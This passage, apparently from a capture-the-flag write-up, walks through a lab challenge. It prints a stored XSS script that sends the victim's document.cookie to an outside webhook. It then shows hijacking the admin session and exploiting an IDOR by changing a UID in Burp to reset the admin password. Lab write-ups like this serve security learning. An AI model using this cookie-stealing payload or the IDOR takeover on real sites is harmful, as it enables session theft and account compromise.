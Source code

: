 {{<figure src="/images/Posts/016/webhook_addy.jpg">}}

We will put this into the script above and full send this.

```javascript
<script>
fetch('https://webhook.link/5f41db1a-e3c8-4906-aaac-89f67978ba91', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Once you see the message "AN ADMIN WILL REVIEW YOUR TICKET SHORTLY!" the payload has been sent.

{{<figure src="/images/Posts/016/xss_send.jpg">}}

Now we need to grab our cookie data and make a cookie to log authenticate with.

{{<figure src="/images/Posts/016/cookie.jpg">}}

Navigate back to the login page and open your browsers development tools to put the cookie information in,and refresh the page. The directory enumeration revealed a directory ```/tickets/```. Navigate to that directory and you will see some tickets waiting for you.

{{<figure src="/images/Posts/016/tickets.jpg">}}

What you are really after is the settings button on the top left hand corner. This will give you a change password prompt. Awesome!!

### IDOR

Fire up burpsuite and make sure intercept is on. We want to control what password we are changing. Enter the new password and hit update. 

{{<figure src="/images/Posts/016/password.jpg">}}

We will check burp and make sure it intercepted it to change it.

{{<figure src="/images/Posts/016/burpidor.jpg">}}

The UID we will change from 100 to 1. This will be the admin password we are changing. We can confirm we changed the admin password on the login page it will say that we changed admin's password. 

To finish this off log out and login as admin with your brand new complicated password to get the flag


---
{{< youtube g9-Zta5OO_0 >}}
---
{{< youtube UXtxfka2TuY >}}